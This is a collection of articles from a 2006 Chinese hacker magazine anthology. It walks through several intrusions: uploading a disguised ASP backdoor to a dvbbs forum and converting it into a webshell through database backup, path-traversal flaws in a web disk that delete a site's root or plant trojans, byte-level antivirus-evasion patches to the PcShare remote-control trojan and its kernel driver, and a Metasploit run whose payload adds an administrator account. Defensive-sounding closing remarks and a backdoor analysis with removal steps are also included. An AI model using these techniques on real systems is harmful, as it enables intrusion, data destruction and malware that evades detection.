没有找到可以得到WebShell的地方，看来是没有办法了，于是回到首页继续逛。一看是动易2005，想用得到的密码试一下，居然没有找到后台，@#%^&*防范得很好，把后台登录地址改了！！痛苦失望流鼻涕中。

惊鸿一瞥，我发现最右侧还有个论坛，一看动网的dvbbs7.1.0，马上试一下！

把dvbbsToshell.gif(一个数据库 里面插入了加密的asp后门，已经放在光盘)选择在发表帖子的那个地方上传。因为这个地方不会检查gif的特征码。(不要选择在头像上传的地方上传啊)。如图5所示。


记录上传后的地址UploadFile/2005-7/200571212261232654.gif，点击“管理”到后台，执行数据库备份，如图6所示。


恢复成shell.asp，如图7所示。


执行后门http://bbs.yisou8.com/Databackup/shell.asp，如图8所示。


写入新的后门http://www.yisou8.com/shell2.asp测试下功能，完成。
本文关键是注入点的挖掘和灵活的运用已知的漏洞，写完后也是我通知管理员的时候了！///

适合读者：脚本爱好者，网站维护人员
前置知识：脚本入侵基础

### 桃源网络硬盘漏洞

文/图 玫瑰下的烂泥


桃源网络硬盘的风格，界面以及功能设计得不错，也因此受到不少网站的喜欢，之前热闹的漏洞似乎告别一段落，现在桃源网络硬盘已更新到V2.5了，以前的上传漏洞早已不存在了，因为现在的桃源网络硬盘采用了数据库来存放上传文件记录。
漏洞总是相关联的，下面我分3步来说桃源硬盘的安全问题。

#### 桃源网络硬盘随时删

下面我演示一下桃源网络硬盘如何给人删除，问题首先出现在文件夹改名问题，也可以说是“../”目录跳转问题，当我们注册好ID后，桃源网络硬盘里的用户是可以随意建立文件夹的(文件夹名要合法)，用户建立的文件夹一般是存放在“/MyFile/UserName/”里的，当我建立一个正规的文件夹名如“Folder”，那么就会相应在用户目录里建立一个“Folder”的文件夹，但建立前会在数据库里的“AllPaht”建立目录信息，表面看上去好像没有什么问题，因为新建文件夹时会对新建立的文件夹名规范化。可是这时候真正的问题出现了，就是文件夹改名的问题，如图1、图2所示。


www.hacker.com.cn
2006精华奉献本 下册

从图2的改名结果可以看出，当我把“Folder”文件夹改名为“../../”居然没有提示或出现问题，看来桃源网络硬盘已认为此文件夹名为合法的，但是我改了名，它的路径有效吗？在这里我可以说是有效的，看看下面就明白了，如图3所示。


这时候真正的问题就出来了，当我进行删除此文件夹时，桃源网络硬盘的目录或网站根目录上的所有文件会被一扫而空，如图4、图5、图6所示。


从以上几个图就明确的知道整个网站的根目录被删了，因为桃源网络硬盘对删除的文件夹是从数据库里取得的，它并没有再对从数据库里取出的数据检查是否为用户目录。于是就这样简单的几步就把整个网站就一扫而空了。

#### 上传文件到任意目录

问题还是来源于“../../”的目录问题，虽然桃源网络硬盘程序不许我们上传可执行文件（ASP，ASPX，CGI，PHP，JSP等），但是有两类文件它是没有过滤的，就是Ascx和Asax这两类文件。整个网站程序有这类的文件，如图7所示。


这两个文件可以通过“../../”这样的文件目录来把文件上传到桃源网络硬盘的程序目录。因为网站程序“Top.ascx”是由其它页面引用的，还有就是“Global.asax”它可以说是全局的，如何在“Global.asax”里写入相应的代码（木马），那样就可以随便得到任何的变量，更甚至于WebShell。由于时间关系，我把“Global.asax”作了一些修改，以便演示，在本地我修改一个“Global.asax”，在文件的尾部添加了一行“<!--修改后的Global.asax-->”，然后上传。如图8、图9所示。

很显然，图9的第一部分是我上传“Global.asax”（因为该文件被我加了一行导致出错），图9的第2部分是在我虚拟机里的“Global.asax”，它就是我刚上传的文件，把原来的“Global.asax”占了。


如果我在“Global.asax”文件里写的是木马程序，那么要得到一个网站的WebShell就是轻而易举了，其实好戏还在后头。

#### 另存文件漏洞再现

自上次战友1860公布另存文件漏洞问题后，官方已火速修补了此漏洞（在无扩展名的情况下可以另存为ASP等脚本文件），因为存文件不允许无扩展名，且另存文件时不许有文件分离符“.”，否则会提示有非法字符。其实此问题到现在还存在，只是官方治标没有治到本。下面来看看我是如何把ASP写上服务器的。

## SCRIPT ATTACK

> 栏目编辑：脚本小子 scriptsboy@hacker.com.cn

记得我们上传的文件类型为“TXT”的时候，桃源网络硬盘是可以在线编辑的，如图10所示。


问题的入口就是在上面图10了，一般我们直接点击连接会看不到它的真正URL，如果我们点击的同时按着键盘上的“Shift”键，浏览器就会新建一个浏览窗口，在地址栏上就可以看到它的真正的URL，其实我们真正利用的就是它的URL。如图11所示。


我们现在就行动吧！首先就是先修改一下它的URL里的“File”变量参数。把它改成“Sql.asp”，其它的不用改了，然后就能转到该URL。如图12所示。


提交后网站程序就报告不能打开文件，那是正常的，如果我没上传该文件就能打开的话，微软公司就真牛了。

现在就是在下面文本框里粘贴上我们的ASP木马啦，如果是ASPX木马的话我也不反对。如图13所示。
是不是有些兴奋呢？好，现在就重组该ASP木马的网站位置(一般文件


的存放位置是在网站根目录的位置“MyFile”的目录，然后就是你注册的目录名，我现在测试的用户名为“fff”，所以重组后的位置是“http://www.xxx.com/myfile/ffff/sql.asp”看看，如图14所示。


想不到官方修补时还把这洞给漏了呢，得到WebShell是不是很容易？不过要执行ASP成功就要看看该目录是否有脚本执行的权限了。如果结合上面的漏洞，很轻易把你的ASP木马转移到有执行权限的目录，至于做法我在这就不多讲了。

### 写在文后

首先要我对“风雨无阻”这位同志说声对不起。因为之前为了给“风雨无阻”同志说明那个“删除文件大法”的漏洞，在她的官方网站利用文件夹改名没有过滤的漏洞建立了一个“../../”这样的虚拟文件夹，由于我朋友急着叫我去吃饭，一时忘了把计算机锁定。回来的时候，“风雨无阻”同志说网站里的文件已经全给人删除了，那时我满脑子都是问号，因为这个“删除文件大法”是我昨天从12点分析到2点钟的成果，且是最新版的(V2.5，10月6号发布的作品)按道理应该没有可能的她演示网站受到外界的强烈攻击(因为这漏洞除了跟“风雨无阻”这位开发者说以外，并没有向外公布)。换句话说就是说明删除文件的源头应该是我的机器，因为我把漏洞通知了开发者后，朋友们就急着叫我去吃晚饭，一时忘了把计算机锁定。当我去吃饭的时候有同学用我的计算机乱打乱撞，把官方网站的网站根目录下的文件全删除了。在此我心感抱歉。同时告诫广大“黑客”们，当你人离开计算机时，如果你的桌面有很私人的东西时，请把计算机锁上，以免出现不必要的问题。

其实就是告诫一些“黑客”们测试漏洞时不要在官方网站上乱打乱撞，最好是在虚拟机里面测试，因为网站是有法律条例保护的，再者就是官方站是演示给人看的，如果遭到破坏，会对官方的形象受打击。我们玩网络安全，一是为了帮助开发者实现完美的程序，二是保家卫国，请“黑客”们谨记。

编者按：在桃源官网的硬盘系统被误删后，V2.6版推出了，但是，我觉得更应该要在V2.6版后面加上个Beta吧。


www.hacker.com.cn
2006 精华奉献本 下册


适合读者：程序员，黑客爱好者
前置知识：汇编基础

### 驱动级的特征码修改
#### ——终极免杀之PcShare
文 / 图 tankaiha[NE365]

PcShare可算国内最优秀的远程控制软件之一，其特有的驱动级隐藏技术让PS的隐蔽性有了质的提升。可再好的隐藏也必须先过安装这一关，由于杀软的特征码库中早已有PS的代码，所以在开监测的情况下，当服务端释放*.Dll和*.SYS两个文件时杀软会报警，因没法安装。这时应该做什么？当然是免杀。加壳是没用的，要改特征码。改文件和内存特征码在前几期的黑防都已介绍过，照旧修改就可以。关键PS中有个驱动程序PcHide.SYS，它的特征码又应该怎么修改呢？这里就和大家交流一下含驱动的程序特征码修改，使用的杀软是最新的KV2006。PS使用的是破解完全版。（用盗版只是测试，大家多支持正版）。其他工具包括特征码修改器CCL v2.7.1、IDA pro 4.7、OllyDbg、Pelnfo、IceSword及UltraEdit。

#### 驱动程序PcHide.SYS的修改

好久没见黑防的朋友们了，所以，上来就是重头戏！先来修改驱动的文件特征码吧。第一步是用CCL确定其特征码位置，CCL的使用过程就不再赘述了，直接用自动定位功能，检测大小为10，检测范围为text既代码段。直接看定位结果如下：

|  |  |  |  |
| --- | --- | --- | --- |
| 0001 | 00003DC | 000001F | 000003FB |
| 0002 | 00003FC | 000003E | 0000043A |
| 0003 | 00001C78 | 000001F | 00001C97 |
| 0004 | 00001C98 | 000003E | 00001CD6 |
| 0005 | 00001CD7 | 000003E | 00001D15 |

看看结果，聪明的你应该发现虽然有5处数据，但前2段和后3段分别相连，也就是说PcHide.SYS总共只有两处特征码，分别在000003DC到0000043A和00001C78到00001D15。像这样两处相连而又相隔较远的情况，一般来说两处必须都要修改（在结果较多且较分散时，判断起来会麻烦一点，所以我给CCL加了个功能，可以很快确定至少需要修改几处，修改哪几处，将在下面介绍）。
下面是IDA反汇编，看代码。先来看3DC处，如图1所示。


看来不是汇编指令，在IDA中切换到Hex View窗口观察，原来是字符串“D:\PcShare\癞痢塔塔\PcHide\objfre\i386\PcHide.pdb”。中间的乱码没关系，因为我们看到了PcShare和PcHide。改字符串最简单的方法是改大小写，原则是不能干扰原文件执行。这里的字符串给出了一个pdb文件（符号文件）的路径，虽然我不知道它的具体作用，但大小写改变应该没问题。于是，在UltraEdit中把该处的大写字母全改为小写，完后保存。

光修改这处不行，KV检测一下还会报警，也证实了前面的判断——两处都要修改是正确的。再来看第二处1C78的代码，修改该处代码既是重点又是难点。

```
...
.text:00011C78    xor    ecx, ecx
.text:00011C7A    cmp    byte_12280, cl
.text:00011C80    jz    locret_11D68
.text:00011C86    push    esi
.text:00011C87    cli
.text:00011C88    mov    eax, cr0
.text:00011C8B    and    eax, 0FFFEFFFFh
.text:00011C90    mov    cr0, eax
.text:00011C93    mov    edx, dword_130BC
.text:00011C99    mov    edx, [edx]
.text:00011C9B    mov    esi, dword_130B0
.text:00011CA1    mov    eax, ds:ZwQuerySystemInformation
...
```

修改的难点有二，一是该段中包含跳转指令jz，二是指令的顺序没法交换。驱动程序是在内核执行的文件，所以修改时一定要注意，能不添加代码就不要添加，尽量不改变原代码的整体大小。因此，这里用了特殊的方法。注意这一句and eax,0FFFEFFFFh。要知道eax是CPU最常用的寄存器，因此操作eax的指令通常既短小速度也快，我们看一下这句话的十六进制编码25 FF FE FF FF，很明显，25是指令，FFFFFEFF是参数。而and ebx,FFFFFEFF的编码是什么呢？最方便的查看指令编码的工具就是OD了，用OD任意打开一个可执行文件（OD不能直接打开驱动文件），做一下试验，得到编码为：81 E3 FFFFFEFF。呵呵，多了一个字节（看一下Intel指令参考就知道，81代表and指令，E3代表ebx及操作方式，确实eax的指令被优化了）。我们的思路，将这里的寄存器改为ebx。但多出的一字节怎么办呢？不能将所有的代码都向下平移吧？呵呵，我们要在下面的代码中将这个字节找回来。看mov edx, dword_130EC，它的编码为8B 15 EC 30 01 00，足够6字节。把这里的edx换为eax会怎么样？同样在OD中键入mov eax,dword ptr ds:[130EC]，看到了吧？它的编码为：A1 EC300100，只有5个字节，这样代码的大小就平衡了。

还有一个问题要注意，为什么可以将edx改为eax？如果eax存有其它的值怎么办？那就不改变原程序的执行结果啦？不会的，因为向下三行有这样的代码 mov eax, ds:ZwQuerySystemInformation，说明eax的值在这里被更新，因此可以判断出修改eax的值不会影响程序执行。方法已经有了，下面修改。先在OD中将如下代码键入。

```
10003817   0F20C3         mov ebx,cr0
1000381A   81E3 FFFFFEFF  and ebx,FFFFFEFF
10003820   0F22C3         mov cr0,ebx
10003823   A1 EC300100    mov eax,dword ptr ds:[130EC1]
10003828   8B10           mov edx,dword ptr ds:[eax]
```

5句代码共19个字节，与未修改时的一样。由于OD不能直接打开SYS，所以我们用UltraEdit打开Pchide.SYS，直接修改十六进制数据。修改完后保存，再用KV检测。怎么样，文件免杀成功。

下面是非常关键的一步，修改文件的校验和（CheckSum）。这一步也许是众多读者修改后的驱动无法加载的原因。用PeInfo打开sys文件，点击CheckSum，程序自动计算出结果，再点修改就可以了。如图2所示。


那么驱动的文件特征码改完了，内存需不需要改呢？我们来试一下：用驱动加载程序将PcHide.sys加载到内存中，用KV进行内存检测。加载工具用InstDrv（www.rootkit.com/vault/hoglund/InstDvr.zip），运行时输入sys文件全路径，先是Install安装，然后Start开始执行。若显示Operation was successful，表示操作成功。如图3所示。


用KV检测，呵呵，检测不到，这样就避免了我们修改内存特征码的麻烦（没试之前我还真犯愁，CCL暂不具备定位驱动文件内存特征码的功能，这下可以偷懒了，不用再写代码了）。

PcClient.dll、PcKey.dll与PcInit.exe的文件特征码修改。PS共包括4个关键文件，除了那个SYS处就是这3个。既然不是驱动程序，修改起来真是得心应手。过程就不多说了，只详细说一下改PcClient.dll的，其它直接给出结果，中间的注意事项会提出来。PcClient第一次定位设置：手动，生成100个文件，范围为整个文件。定位结果为：

| 0001 | 00000000 | 0000282E | 0000282E |
| ---- | -------- | -------- | -------- |
| 0002 | 00002B6E | 0000147 | 00002CB3 |
| 0003 | 000036ED | 0000147 | 00003834 |
| 0004 | 00007D2E | 00002D2 | 00008000 |

注意，手动检测如果能剩余多个文件不被杀（文件头被覆盖的除外，比如0001项），说明该文件既使有多处特征码，也只需修改一处既可免杀。看结果，范围较大，我们将定位精度调高，再检测一次。将CCL设置为：手动，替换精度16字节，范围为00002B6E开始处0x147个字节（既选取了0002项），再次定位结果就一项

为什么我们将精度设为16，结果的范围却这么大，为70呢。这说明该特征码本身范围较大，任意改动一小处既可搞定。OK，都不用IDA出手，直接用OD打开PcClient.dll，来到10002C3E处，有如下代码

```
...
.text:10002C41    mov    edi, [esp+lpServiceName]
.text:10002C45    mov    esi, eax
...
.text:10002C81    mov    edi, [esp+lpDisplayName]
.text:10002C85    mov    esi, eax
...
```

好“爽”，最简单的方法，交换顺序既可。保存后再用KV检测，免杀again!下面是其余两个文件的修改，这时我没用手动，而用了自动定位，检测范围就是text段，先给出结果。PcKey.dll这样修改。

```
...
.text:10001191    mov    esi, eax
.text:10001193    test   esi, esi
.text:10001195    jz     short loc_100011F7
.text:10001197    mov    ecx, 0FFh
.text:1000119C    xor    eax, eax
.text:1000119E    lea    edi, [esp+60h+var_400+1]
...
```

将test esi,esi换为or esi,esi既可(晕死,改了一个字节就搞定,服了KV ! ) PcInit.exe共修改两处,一处是

```
...
.text:004016AE    stosd
.text:004016AF    stosb
...
```

第二处是：

```
...
.text:004017CE    test   eax, eax
...
```

怎么改不用我说了吧？交换顺序，test变or。再检测，成功。到这里，三个文件的文件特征码全部修改成功。

这里说一下上文提到的CCL定位结果排列组合功能，比如在定位PcKey.dll时，自动定位结果为

| 0001 | 00001180 | 00000070 | 000011F0 |
| ---- | -------- | -------- | -------- |
| 0002 | 00001790 | 00000020 | 000017B0 |
| 0003 | 000017C0 | 00000010 | 000017D0 |
| 0004 | 000017E0 | 00000010 | 000017F0 |

精度已经够小了，可四处结果先改哪一处好呢？这时就可以用CCL的功能 打开PcKey.dll，导入刚才的定位结果，然后点生成。在output文件夹里生成了一些文件名为R_X_XXXXX的文件。用KV对output文件夹扫描，完后删除报警的文件（这里一个也没有删除），再点击检测钮，CCL会给出如下结果

- 只修改一处特征码时,仅需修改
  第 1 处
  或 第 2 处
  或 第 3 处
  或 第 4 处
- 同时修改两处特征码时,可以修改
  第 1 处 和 第 2 处
  或 第 1 处 和 第 3 处
  或 第 1 处 和 第 4 处
  或 第 2 处 和 第 3 处
  或 第 2 处 和 第 4 处
  或 第 3 处 和 第 4 处
- 同时修改三处特征码时,可以修改
  第 1 处 、第 2 处 和 第 3 处
  或 第 1 处 、第 2 处 和 第 4 处
  或 第 1 处 和 第 3 处 和 第 4 处
  或 第 2 处 、第 3 处 和 第 4 处

这说明只需任意修改一处既可。爽吧，不用一个个去试了！如图4所示。


图4

#### 内存特征码的修改

过去我们已经验证了瑞星的文件和内存用了两套特征码，现在KV也具备了内存检测功能，是否同样是两套特征码呢？我试了一下，生成服务端并用KV检测，不报警，说明文件特征码已成功修改。但双击运行一下，告知没有权限或找不到文件，一切对服务端文件的操作都给禁止了，这肯定是KV搞的鬼。原理我不太清楚了，也许是KV虚拟机执行后检测到内存特征码吧，但说明一个问题：内存特征码也得改！

定位内存特征码时可按如图5所示操作，每一回合点“暂停”，并用KV检测内存，根据报警文件的名称选择CCL的复选框，再点击运行，进入下一回合，直到最后CCL给出结果。至于KV提示的“是否清除”，点否即可。


图5

过程不讲了，直接给结果。对于PcClient.dll，将10002C49处的call 10002BA0改为call 10002C67，并在10002C67处的空白添加如下代码：

```
10002C67 E8 34FFFFFF      call PcClient.10002BA0
10002C6C C3                retn
```

相当于做了一个间接的CALL。

第二个PcKey.dll在改完文件特征码后直接内存免杀，检验的方法为用OD加载，并用KV检测内存，dll和exe方法一样。

就剩下PcInit.exe了，还真有点麻烦，因为会出现定位结果处怎么修改都不行的情况，下面边说边解释，并给出解决方法。PcInit.exe的内存特征码定位结果倒是很简单，就一处：

0001-00001798-00000010-000017A8

该处代码为：

```
00401798  je PcInit.00401A58
0040179E  mov eax,dword ptr ss:[ebp-20]
004017A1  cmp eax,dword ptr ds:[esi+8]
004017A4  jnz PcInit.00401A58
```

修改起来很简单，将je处的跳转地址改为一个空白地址004025E0，在空白处添加一个jmp就可以了：

```
004025E0 jmp PcInit.00401A58。可这样修改后，用OD加载仍旧报警。我在这里耽误了好一段时间，最后决定改一下入口试试。在空白处添加新的入口：
```

```
004025E5    68 3C244000        push PcInit.
<ModuleEntryPoint>
004025EA    58                 pop eax
004025EB    FFE0               jmp eax
```

保存后用PeInfo将PcInit.exe的入口改为000025E5。保存修改后再用OD加载并用KV检测内存，免杀。看来杀软的特征码判断确实和入口处代码(或偏移)相关，至少对待一部分程序是这样。

#### 效果检测及PcShare的卸载

由于我没有肉鸡，所以只能在自己机器上检测一下运行情况，而能否正常工作就不试了，应该没问题。先生成服务端，再打开KV的全部监视，双击运行。嘿嘿，服务端的图标一闪就没了，而KV丝毫没有察觉。打开IceSword，在SSDT里查看PS驱动是否加载，如图5所示，列表中红色的Yxxxxxxx.sys就是PS的核心，PS的文件名总是以Y开头，后面7个字母随机。还有几行红色的KRegEx.sys是什么呢？那是KV的驱动。查看进程，多了个iexplorer.exe，关闭它马上又会重启，这是因为在一个svchost.exe的进程中有守护线程，如图6所示。


图6

打开KV，此时无论你用内存检测还是文件检测都没有用了(如果可以检测出来，当初KV是不会让PS加载的)。顺便讲一下删除的方法，先在IceSword里的File里将windows\system32\drivers\Y*.sys删除，再重启计算机。这时另一个被释放的文件windows\system32\Y*.DLL及注册表中的数据就现身了，删除之(也可以启动到DOS下删除)。在注册表里查找Y.*，删除所有项就OK了。IceSword确实猛！

### 结束语

看来靠无休止的升级杀毒软件和打补丁是没法儿保证电脑的安全的，主要还是用户的安全意识和水平的提高。介绍这个方法不是让大家都去改马，而是探讨一种方法，也是为了杀软更好的进步。光盘里提供了update文件夹中的4个免杀文件供测试。

适合读者：入侵爱好者、黑器迷
前置知识：Windows基本操作

### 懒人的溢出工具包

前几天在QQ上有Q友说找到了一个很爽的溢出工具包，可是我怎么问都不肯告诉我，最后送了他一套衣服才给我说了工具包的名字。下载回来使用后觉得这个溢出工具包的确很爽，不敢独享，把自己的使用心得写下来和大家共享，顺便搞点网费继续上网。

这个工具包分Linux/UNIX版和Windows版，考虑到大多数人都是使用Windows系统，这里我把Windows版的Metasploit使用方法说明一下，至于Linux/UNIX下的使用方法和Windows下的也是大同小异，这里就不额外说明了。

下载Metasploit的安装程序之后双击安装，傻瓜化的安装过程，这里就不多说了。安装完成后可以看到安装目录下多了很多文件，主要是Msfconsole.bat和Msfweb.bat。第一个是这个工具包的控制台，第二个是这个程序的图形界面下的程序，下面和大家一起来领略它们的魅力！

#### 命令行下使用Metasploit

运行后首先看到的是Metasploit欢迎界面，我们输入“？”得到在线帮助（如图1所示）。


可以看到里面有很多的命令，下面将最重要的几个做简单解释：

- "? "：得到帮助。
- "cd":更换当前的工作目录。
- "exit":退出。
- "help":得到帮助。
- "info":显示当前程序的信息。
- "quit":退出程序。
- "reload":载入Exploit和payloads。
- "save":保存当前设置
- "setg":设置一个环境变量。
- "show":显示可用的Exploit和payloads。
- "use":使用一个Exploit。
- "version":显示程序的版本。

虽然有这么多的命令，可是常用的也就是"show"、"info"和"use"而已，它们究竟怎么使用呢？

此程序集成了众多的Exploit，所以我们要先了解一下程序中到底有那些溢出工具包，输入“show Exploits”看有哪些可用的Exploit程序（如图2所示）：


左面显示的是溢出程序的程序名称，右面是相应的简介。可以看到Metasploit中带的溢出程序包还是很多的，完全可以满足我们日常入侵的需要，以后我们就再也不用到存放溢出程序的文件夹中去寻找半天对应的程序了！
知道了有什么溢出程序，但是怎么使用呢？一般情况下，当我们拿到一个溢出程序后要先阅读溢出程序的帮助文件来查看使用方法，在Metasploit中怎样查看我们需要的溢出程序的使用方法呢？这就用到了Info命令。该命令的作用是显示溢出程序包的详细信息，比如我们想要查看"iis50_webday_ntdll"溢出工具包的使用方法，在命令行下输入："info Exploit iis50_webday_ntdll"后得到如图3所示的回显。


> 蝴蝶 在图3中我们需要注意的是一开始的部分和Available Options中的内容，开始的内容可以告诉我们这个溢出程序是针对什么系统的，而Available Options中的内容是我们下一步所要用到的。

这里需要说明的是，输入的命令中的Exploit是向程序指明我们要查看的是Exploit信息，同理还可以查看Payload的信息，但Payload是什么呢？说白了Payload就是我们平时说的ShellCode。在Metasploit中，溢出所用的ShellCode并不像我们平时用到的溢出工具一样，Metasploit允许我们自己选择自己喜欢的ShellCode，这样就大大提高了溢出的灵活性。


文/图 Hacksign

www.hacker.com.cn
2006 精华奉献本 下册


## HACKER'S TOOLS

栏目编辑> 蝴蝶> butterfly@hacker.com.cn

在命令行下输入“show payloads”后可以看到可用的ShellCode列表(如图4所示)。同样，左面是ShellCode的名字，右面是相应的简介。我们再用info命令来看一下ShellCode的具体信息，比如我们对一个叫Windows的ShellCode比较感兴趣，在命令行下输入info payload-winexec，如图5所示。


在这个对话框中需要注意的是同样是开头的信息和Available Options中的内容。在Available Options中，我们可以看到有Required和Optional的字样。Required代表必选的意思，Optional代表是可选可不选的。在下面的具体使用中我们需要用到这里面的选项。


> 蝴蝶：这里需要说明的是，以BSD开头的是针对BSD系统的ShellCode，以Linux开头的是针对Linux系统的ShellCode，以CMD和WIN开头的是针对Windows系统。因为为不同的系统对不同的ShellCode要求是不一样的，所以在此一定要选择合适的ShellCode才可以成功溢出。

看了这么多基本的命令介绍，下面我们实际溢出一次看看效果！

在实际的溢出中，我们要用到的是USE命令。这里我们仍然以“iis50_webdav_ntdll”溢出工具包为例。在命令行中输入“use iis50_webdav_ntdll”后会切换到“iis50_webdav_ntdll”目录下，输入Show options，查看溢出工具包要求指定输入的内容，如图6所示，可以看到有两个Required项，这里的Required是和图3中一致的。下面我们来设置这些必须的选项，在命令行下依次输入：


```
set RHOST 192.168.1.3
set RPORT 80
```

如图7所示。


在Metasploit中，ShellCode是可自己指定的，怎样指定呢？很简单，依次输入如下命令：

```
set payload winexec
set CMD net user hacker 123 /add & net localgroup administrators hacker /add
```

如图8所示。

第一个命令是指定我们需要用什么样的ShellCode，但是第2个命令是什么意思呢？大家现在回过头去看看图5。发现了什么？呵呵，还记得我提到过的必选项吗？看看Available Options中的CMD必选项和后面的说明。是的，这里的第2个命令的意思就是设置必选项CMD，其实设置的CMD的内容就是我们需要执行的命令，至于什么命令那就看大家的需要了！


好了，最基本的设置我们已经完成，最后指明目标主机的操作系统就可以发动攻击了，输入：

```
show targets
```

可以看到可供选择的操作系统类型的代表名称，接着输入：

```
set target 0
```

选定操作系统。OK，我们确认一下，输入：


可以看到如图9所示的回显检查无误后就可以开始溢出了，输入：

```
exploit
```

程序提示溢出开始，只不过我这次试验怎么溢出都不成功，因为对方系统早补了这个漏洞了，这里也就不把图贴出来丢人了，见谅。


### 图形界面下使用Metasploit

Metasploit图形界面的使用方法和命令行下没有太大的区别，只不过是操作方式的不同罢了。到Metasploit的安装目录下找到Msfweb.bat文件双击运行，一会后程序提示执行成功，如图10所示。


然后打开IE，在地址栏中输入http://127.0.0.1:55555，等一会后看到如图11所示的IE窗口。

在想要使用的溢出工具包上单击鼠标左键后进入基本设置窗口，我们仍然以iis50_webdav_ntdll为例，如图12所示。


黑客手册 www.hacker.com.cn

2006精华奉献本 下册 第10万页

## HACKER'S TOOLS

> 栏目编辑）蝴蝶）butterfly@hacker.com.cn


单击“select payload”选项进入Payload选择界面，如图13所示。


选择合适的Payload后就进入基本信息的设定界面了，如图14所示。


这里的设置和命令行中介绍的是基本一致的，我就不做额外的说明了。都设定好后，你可以点击Vulnerability Check检查看看目标系统有没有相应的漏洞，或者点Launch Exploit进行攻击！

从上面的操作可以看出Metasploit的使用方法是非常简单的，而且功能也是很强大的。对于我们日常的渗透来说是一款很实用的工具。当然，你也许并不满足于软件自带的这些溢出工具，你完全可以自己向这个工具中添加任何你认为对你有用的溢出工具包。相信随着大家的努力，这个工具包可以更加完善！

蝴蝶：学习黑客技术很关键的一点就在于不断地学习新东西，不断地创造出新东西，这样才能在飞速发展的网络中占领自己的一席之地。最近大家关注的黑兵器有些什么呢？黑客之门估计是大多数人关注的目标，因为它太厉害了，它不但功能超强的后门，同时它很多思想都比较新颖，值得大家学习。正好本文作者通过自己写程序和分析黑客之门的代码获得了技术上的很大提高，于是写下此文。抱着学习的态度从技术角度分析黑客程序的编制技巧，与大家分享，8错8错！

适合读者：黑客爱好者、入侵爱好者、编程爱好者
前置知识：黑客之门的基本功能

### 黑客之门的魅力：
黑客之门

文/图 Vanchao


最近对后门产生了很浓厚的兴趣，上网与各位高手讨论的时候，有人提到了“黑客之门”很厉害，也算是推出来的比较成功的一个后门，于是上网下载了一个研究研究，顺便也学习学习它编写的方法与技巧。不敢独享，分享于此，同时希望高手们指教。

135，139，445等，因此它的隐蔽性非常好，而且穿透防火墙也是很容易的事。这个版本文件不大，只提供一些很有用的命令。目前还没有发现何工具能到这个后门，像Fport，Lister，RKDetector等查工具都失效。

### “黑客之门”介绍

#### 程序的自启动

黑客之门采用一些先进的后门技术，它只有一个DLL文件，通过感染系统文件启动自身，被感染的系统文件大小和日期都不会改变。同时采用线程插入技术，没有进程不开端口，而是重用系统进程开的任意一个端口，如80，既然是一个后门，那么就要随系统的启动而启动，根据黑客之门的介绍，它是通过感染系统文件来实现程序的自启动的。既然是感染系统文件（像病毒），那就看看感染前和感染后的系统文件的区别吧！为了测试感染前后的差别，我准备了一个专门用来被感染的文件TestLoad.exe，它没有什么功能，只是弹出一个对话框，但麻雀虽小，五脏俱全，省得动系统文件了。接着运行命令：

```
C:\>rundll32 hkdoordll, DLLRegisterServer TestLoad.exe 2
```

使黑客之门感染TestLoad.exe，感染完毕后用EXE文件查看利器eXeScope查看TestLoad.exe被感染前后的差别。

被感染之前eXeScope显示的TestLoad.exe结构如图1所示。
感染之后的TestLoad.exe结构如图2所示。


可以看出感染之后的TestLoad.exe的引入表多了一个Hkdoordll.dll引入库。细心观察感染之后的TestLoad.exe的引入表地址(Import Table Address ITA)已经被改变，原来的ITA为0x000043FC，感染后为0x0000477E。

为了进一步看清楚感染前后文件的变化，这里使用LordPE.exe比较感染前后的TestLoad.exe的引入表函数，比较结果如图3所示。


使用LordPE.exe查看exe文件的引入表函数方法是：点击PE Edit打开相应的文件，接着点击Directories，弹出对话框后，点击Import Table右边的3个点，这样就可以查看一个可执行文件的引入了。

可以看出，只是在引入表链表中添加了一个相应的Hkdoordll.dll，这样当被感染的程序再次运行时，由系统程序装载器搜索hkdoordll.dll，并将其引用到被感染程序的地址空间，后门就运行起来了。黑客之门的这种子启动方式值得学习，比较灵巧。

搞明白了黑客之门的启动方式后，我们就可以手动清除它了，这里切不可将Hkdoordll.dll直接删除，这样可能导致系统崩溃。因为系统在加载被感染的程序（假如为Services.exe）时发现没有找到hkdoordll.dll，Services.exe将不能被装载，如果被感染的是系统关键进程的话，那么系统将不能正确启动。清除的时候我们可以去别的机器上（相同系统与补丁）找一个Services.exe，将被感染的程序命名为Services2.exe，将Services.exe拷贝到System32文件夹下，重启电脑，删除Hkdoordll.dll就清除黑客之门了。

#### 运行时感染

上面说的是黑客之门的自启动方式，下面看看黑客之门是怎么感染正在运行的系统文件的，这一点让我晕了很久，最后发现是用了一个很灵活的小技巧。

我们知道在Windows系统下，正在运行的程序文件一般是不能修改或者删除的，正是由于这一点，才出现了各种程序运行时的自删除大法，程序自删除不是我们这次的重点。但是，细心的用户可能已经发现，在Windows 2000或Windows XP系统下，我们可以对正在运行的EXE文件进行重命名或者移动。

再拿刚才的TestLoad.exe做测试，运行

```
C:\>rundll32 hkdoordll, DLLRegisterServer TestLoad.exe 2
```

可以发现TestLoad.exe所在的文件夹内多出了一个文件TestLoad.exe.bak，乍一看还以为“黑客之门”做好事，自动帮你备份一下系统文件，其实这可是黑客之门的狐狸尾巴啊！是它不得已而为之的。不要关闭TestLoad.exe，然后试着删除TestLoad.exe和TestLoad.exe.bak，是不是发现奇迹了？竟然把TestLoad.exe删掉了，而TestLoad.exe.bak竟然不让删，是不是和我刚才说的话矛盾？非也！非也！刚好证明了刚才的话：黑客之门先把TestLoad.exe改名为TestLoad.exe.bak，然后生成一个被感染的TestLoad.exe，这样下次运行的TestLoad.exe实际上是被替换过的程序，原来的程序则放在一边。

用IDA Pro反汇编hkdoordll.dll可以发现以下函数的调用

文件重命名：

```asm
.data:1000C618                 lea     ecx,
.data:1000C61F                 [esp+438h+FileName]
.data:1000C626                 lea     edx,
.data:1000C627                 [esp+438h+var_324]
.data:1000C628                 push    ecx
.data:1000C62D                 push    edx
.data:1000C62E                 call    rename
```

拷贝文件：

```asm
.data:1000C66F                 lea     edx, [esp+440h+var_32C]
.data:1000C676                 push    0
.data:1000C678                 bFailIfExists
.data:1000C678                 lea     eax, [esp+444h+var_228]
.data:1000C67F                 push    edx
.data:1000C680                 lpNewFileName
.data:1000C680                 push    eax
.data:1000C681                 lpExistingFileName
.data:1000C681                 call    CopyFileA
```

移动文件：

```asm
.data:1000C795                 mov     eax, [ebp+8]
.data:1000C798                 test    eax, eax
.data:1000C79A                 jnz     short loc_1000C7FE
.data:1000C79C                 lea     ecx, [esp+448h+var_334]
```

## HACKER'S TOOLS

栏目编辑）蝴蝶 butterfly@hacker.com.cn

```asm
.data:1000C7A3                 push    5
